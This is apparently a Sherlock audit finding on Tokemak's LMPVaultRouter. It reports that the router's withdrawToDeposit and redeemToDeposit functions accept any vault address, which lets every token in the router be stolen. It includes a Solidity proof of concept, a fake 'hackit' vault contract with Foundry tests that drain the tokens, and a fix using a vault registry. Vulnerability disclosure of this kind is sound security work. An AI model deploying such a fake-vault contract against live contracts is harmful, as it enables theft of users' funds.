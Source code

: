 Striped Crepe Hippo

high

# Attacker can get approval for any token from LMPVaultRouter.
## Summary
`withdrawToDeposit` and `redeemToDeposit` functions can be used by attackers to get approval for any token from LMPVaultRouter. An attacker can pass a fake vault to bypass withdraw or redeem function and get approval in _deposit() function of LMPVaultRouterBase.sol

## Vulnerability Detail
Lack of vault address check.

## Impact
Every underlying token in the router contract can be stolen.

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouter.sol#L27-L37
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouter.sol#L63-L73

## PoC
```solidity
contract hackit {

    address public asset = TOKE_MAINNET;
    function withdraw(uint a, address b, address c) public returns(uint256){
        return 22;
    }

    function redeem(uint a, address b, address c) public returns(uint256){
        return a;
    }

    function deposit(uint a, address b) public returns (uint){
        IERC20(asset).transferFrom(msg.sender, address(this), a);
        return 44;
    }
}

    function testwithdrawToDeposit() public{
        deal(TOKE_MAINNET, address(lmpVaultRouter),10e18);
        hackit h = new hackit();
        uint prevBalance = IERC20(TOKE_MAINNET).balanceOf(address(h));
        lmpVaultRouter.withdrawToDeposit(ILMPVault(address(h)),ILMPVault(address(h)),address(h),10e18,33,33);
        uint nowBalance = IERC20(TOKE_MAINNET).balanceOf(address(h));
        assertEq(nowBalance-prevBalance,10e18);
    }

    function testredeemToDeposit() public {
        deal(TOKE_MAINNET, address(lmpVaultRouter),10e18);
        hackit h = new hackit();
        uint prevBalance = IERC20(TOKE_MAINNET).balanceOf(address(h));
        lmpVaultRouter.redeemToDeposit(ILMPVault(address(h)),ILMPVault(address(h)),address(h),10e18,33);
        uint nowBalance = IERC20(TOKE_MAINNET).balanceOf(address(h));
        assertEq(nowBalance-prevBalance,10e18);
    }
```
Paste this contract and test in LMPVaultRouter.t.sol for testing the exploit.

## Tool used

Manual Review

## Recommendation
Introduce a way to verify the vault such as mapping vault=>bool.
